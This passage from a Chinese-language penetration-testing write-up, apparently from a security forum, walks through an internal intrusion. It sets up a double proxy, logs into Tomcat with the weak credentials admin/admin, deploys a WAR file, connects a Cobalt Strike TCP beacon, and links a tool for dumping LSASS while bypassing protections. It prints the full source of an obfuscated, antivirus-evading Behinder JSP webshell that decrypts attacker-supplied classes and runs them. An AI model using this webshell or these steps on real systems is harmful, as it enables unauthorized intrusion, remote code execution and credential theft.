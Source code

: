 ![image-20220923113551911.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-773e180b6bf34b97663b806f43847c9d38be2bd3.png)

整理后的结果

![image-20220923113238056.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-f18f4a1a467e1d60027860009e06a504a4278e41.png)

扫描后发现入口机器位于办公段，与核心服务器区段存在隔离，扫描结果大多无法访问

1、再起一个代理隧道，但是linux机器不出网，遂改用其他方法

2、双层代理，可以使用代理链实现

Tomcat部署war包
------------

扫描结果看到一个tomcat弱密码admin/admin，感觉有戏，熟悉的部署war包环节

制作免杀冰蝎马，默认密码rebeyond，打成war包

jar -cvf shell.war ./shell.jsp

```java
<%! public byte[] A14I0(String Strings,String k) { try {javax.crypto.Cipher BI3fM5 = javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");BI3fM5.init(javax.crypto.Cipher.DECRYPT_MODE, (javax.crypto.spec.SecretKeySpec) Class.forName("javax.crypto.spec.SecretKeySpec").getConstructor(byte[].class, String.class).newInstance(k.getBytes(), "AES"));int[] aa = new int[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98};String ccstr = "";for (int i = 0; i < aa.length; i++) { aa[i] = aa[i] ^ 0x010;ccstr = ccstr + (char) aa[i];}byte[] bytes = (byte[]) Class.forName(ccstr).getMethod("decodeBuffer", String.class).invoke(Class.forName(ccstr).newInstance(), Strings);byte[] result = (byte[]) BI3fM5.getClass()./*Z5Z48C2BT7*/getDeclaredMethod/*Z5Z48C2BT7*/("doFinal", new Class[]{byte[].class}).invoke(BI3fM5,new Object[]{bytes});return result;} catch (Exception e) {e.printStackTrace();return null;} } %><%  try {  String KP8HYn8 = "e45e329feb5d925b";  session.putValue("u", KP8HYn8);  byte[] I934d9i = A14I0 (request.getReader().readLine(),KP8HYn8);  java./*Z5Z48C2BT7*/lang./*Z5Z48C2BT7*/reflect.Method A14I0 = Class.forName("java.lang.ClassLoader").getDeclaredMethod/*Z5Z48C2BT7*/("defineClass",byte[].class,int/**/.class,int/**/.class);  A14I0.setAccessible(true);  Class i = (Class)A14I0.invoke(Thread.currentThread()./*Z5Z48C2BT7*/getContextClassLoader(), I934d9i , 0, I934d9i.length);  Object Q362 = i./*Z5Z48C2BT7*/newInstance();  Q362.equals(pageContext); } catch (Exception e) {response.sendError(404);} %>
```

![image-20220929113917980.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-81c4c7d096855c50e343117a86c2552efe6dd67c.png)

探测一下发现不出网，这里直接使用CS自带的TCP Beacon 正向连接

新建一个TCP Listener

![image-20220929110039182.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-b7e95ea44bf4afb5c166977b02fc7278b223b3a3.png)

生成beacon.exe到目标机器上运行，使用 connect \[ip address\] \[port\] 命令进行正向连接，即可上线

![image-20220929110146457.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-faf288f77e84465b298ab7c132540ed8b69fd8f6.png)

Bypass核晶dump lssas
------------------

<https://github.com/seventeenman/CallBackDump>

